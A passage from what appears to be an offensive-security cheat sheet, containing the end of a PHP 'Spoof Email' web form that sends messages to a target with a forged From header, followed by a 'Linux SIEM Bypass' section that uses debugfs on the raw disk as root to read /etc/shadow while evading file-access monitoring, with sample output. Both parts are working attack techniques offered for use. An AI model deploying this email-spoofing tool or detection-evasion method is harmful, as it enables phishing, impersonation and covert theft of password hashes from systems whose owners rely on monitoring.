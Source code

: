 ```php
      border: none;
      color: white;
      padding: 14px 32px;
      text-decoration: none;
      margin: 4px 2px;
      cursor: pointer;
      font-size: 16px;
    }
   </style>
  </head>
  <body>
<h2>Spoof Email</h2>
<form action="/send.php" method="post" id="emailform">
     <label for="to">To:</label><br>
     <input type="text" id="to" name="to"><br><br>
     <label for="from">From:</label><br>
     <input type="text" id="from" name="from"><br><br>
     <label for="name">Name (optional):</label><br>
     <input type="text" id="name" name="name"><br><br>
     <label for="subject">Subject:</label><br>
     <input type="text" id="subject" name="subject"><br><br>
     <label for="message">Message [HTML is supported]:</label><br>
     <textarea rows="6" cols="50" name="message" form="emailform"></textarea><br><br>
     <input type="hidden" id="send" name="send" value="true">
     <input type="submit" value="Submit">
   </form>
<p>An e-mail will be sent to the desired target with a spoofed From header when you click Submit.</p>
</body>
 </html>' ;
}
?>
```

## Linux SIEM Bypass

```bash
┌──(root㉿kali)-[~]
└─# df /   
Filesystem     1K-blocks     Used Available Use% Mounted on
/dev/sda1       31861548 16932968  13284548  57% /
```

```bash
┌──(root㉿kali)-[~]
└─# debugfs /dev/sda1
debugfs 1.46.6 (1-Feb-2023)
debugfs:  cd /etc
debugfs:  cat shadow
root:!:19436:0:99999:7:::
daemon:*:19436:0:99999:7:::
bin:*:19436:0:99999:7:::
sys:*:19436:0:99999:7:::
sync:*:19436:0:99999:7:::
games:*:19436:0:99999:7:::
```
